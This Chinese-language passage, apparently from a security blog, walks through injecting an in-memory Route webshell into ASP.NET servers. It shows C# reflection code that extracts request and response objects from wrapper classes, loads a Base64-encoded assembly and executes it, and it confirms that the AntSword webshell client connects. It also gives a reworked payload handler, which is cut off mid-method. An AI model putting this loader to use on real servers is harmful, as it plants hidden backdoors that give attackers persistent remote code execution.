 

以asp.net的Route内存马为例，从route上下文中获取到的Context是HttpContextBase，而不是HttpContext。具体的实现类为System.Web.HttpContextWrapper。

![img](https://cdn.nlark.com/yuque/0/2022/png/1599908/1641130345472-31fd4893-67df-42cb-b85a-d99abb0aea03.png)

并且通过HttpContextWrapper.Request获取到的对象是HttpRequestBase，默认实现类是System.Web.HttpRequestWrapper。有点类似Tomcat的门面模式。

![img](https://cdn.nlark.com/yuque/0/2022/png/1599908/1641130306995-dfcb9107-7b47-4574-9980-c2993295b799.png)

如果要采用数组的方式可以用以下反射代码实现

```cpp
                FieldInfo requestField =
                    typeof(HttpRequestWrapper).GetField("_httpRequest", BindingFlags.Instance | BindingFlags.NonPublic);
                HttpRequest httpRequest =
                    (HttpRequest)requestField.GetValue(httpContext.Request);

                FieldInfo responseField =
                    typeof(HttpResponseWrapper).GetField("_httpResponse",
                        BindingFlags.Instance | BindingFlags.NonPublic);
                HttpResponse httpResponse =
                    (HttpResponse)responseField.GetValue(httpContext.Response);
                System.Reflection.Assembly assembly = System.Reflection.Assembly.Load(Convert.FromBase64String(Payload));
                assembly.CreateInstance(assembly.GetName().Name + ".Run").Equals(new object[] { httpRequest, httpResponse });
```

访问注入内存马的aspx，一片空白说明注入成功

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1640526055957-542be082-0d6f-449b-a1bd-fe1a241da5f1.png)

蚁剑中输入任意url，连接成功。

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1640524070570-fdec514f-a08a-439d-bcf3-53012a96551a.png)

## 进一步思考

看起来不错了，但是还有继续优化的空间吗？

Java中一个比较著名的问题是内存马回显，实际上是如何从当前线程获取当前的request跟response对象。这个问题其实比较蛋疼，因为不同的容器有不同的实现细节，无法统一处理。

但是C#则直接把这个接口给暴露了出来，直接可以通过HttpContext.Current获取到当前的context，从而获取当前的request跟response对象。



再次改造之后，payload中parseObj如下：

```cpp
public void parseObj(Object obj)
        {
            if (obj.GetType().IsArray)
            {
                Object[] data = (Object[])obj;
                this.Request = (HttpRequest)data[0];
                this.Response = (HttpResponse)data[1];
            }
            else
            {
                try
                {
                    HttpContext context = (HttpContext)obj;
                    this.Response = context.Response;
                    this.Request = context.Request;
                }
```